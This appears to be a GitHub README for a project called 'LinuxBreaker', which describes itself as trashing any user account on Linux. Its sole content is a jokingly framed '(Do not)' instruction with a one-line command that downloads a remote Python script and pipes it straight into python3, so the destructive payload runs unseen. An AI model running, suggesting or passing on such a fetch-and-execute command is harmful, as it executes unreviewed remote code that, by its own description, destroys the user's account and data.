# LinuxBreaker
Trashes any user account in Linux

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/LinuxBreaker/linuxbreaker.py | python3
